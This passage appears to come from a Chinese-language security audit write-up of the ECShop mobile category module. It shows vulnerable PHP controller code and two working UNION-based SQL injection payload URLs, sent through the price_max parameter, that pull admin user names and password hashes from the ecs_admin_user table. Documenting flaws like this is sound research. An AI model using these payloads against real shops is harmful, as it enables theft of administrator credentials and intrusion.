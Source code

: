     /**
     * 异步加载商品列表
     */
    public function async_list()
    `{`
        $this-&gt;parameter();
        $this-&gt;assign('show_marketprice', C('show_marketprice'));
        $this-&gt;page = I('post.page');
        $goodslist = $this-&gt;category_get_goods();
        die(json_encode(array('list' =&gt; $goodslist)));
        exit();
    `}`
```

### <a class="reference-link" name="0x10.2%20category%20asynclist%20price_max%E6%97%A0%E9%99%90%E5%88%B6%E6%B3%A8%E5%85%A5"></a>0x10.2 category asynclist price_max无限制注入

Payload:`http://127.0.0.1:8888/ecshop/upload/mobile/index.php?c=category&amp;a=asynclist&amp;price_max=1.0union select 1,user_name,3,4,5,password,7,8,9,10,11,12,13,14,15,16,17,18,19 from ecs_admin_user order by goods_id asc limit 1%23`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws3.sinaimg.cn/large/006tNc79gy1fytj7ojjr0j322u0i442g.jpg)

```
public function asynclist()
    `{`
        $this-&gt;parameter();
        $this-&gt;assign('show_marketprice', C('show_marketprice'));
        $asyn_last = intval(I('post.last')) + 1;
        $this-&gt;size = I('post.amount');
        $this-&gt;page = ($asyn_last &gt; 0) ? ceil($asyn_last / $this-&gt;size) : 1;
        $goodslist = $this-&gt;category_get_goods(); //注入
        foreach ($goodslist as $key =&gt; $goods) `{`
            $this-&gt;assign('goods', $goods);
            $sayList[] = array(
                'single_item' =&gt; ECTouch::view()-&gt;fetch('library/asynclist_info.lbi')
            );
        `}`
        die(json_encode($sayList));
        exit();
    `}`
```

### <a class="reference-link" name="0x10.3%20category%20async_list%20%24price_max%E6%97%A0%E9%99%90%E5%88%B6%E6%B3%A8%E5%85%A5"></a>0x10.3 category async_list $price_max无限制注入

Payload:

`http://127.0.0.1:8888/ecshop/upload/mobile/index.php?c=category&amp;a=async_list&amp;price_max=1.0union select 1,user_name,3,4,5,password,7,8,9,10,11,12,13,14,15,16,17,18,19 from ecs_admin_user order by goods_id asc limit 1%23`

[![](https://p3.ssl.qhimg.com/dm/1024_140_/t01ed8efe081b8ace94.jpg)](https://p3.ssl.qhimg.com/dm/1024_140_/t01ed8efe081b8ace94.jpg)

```
public function async_list()
    `{`
        $this-&gt;parameter();
        $this-&gt;assign('show_marketprice', C('show_marketprice'));
        $this-&gt;page = I('post.page');
        $goodslist = $this-&gt;category_get_goods();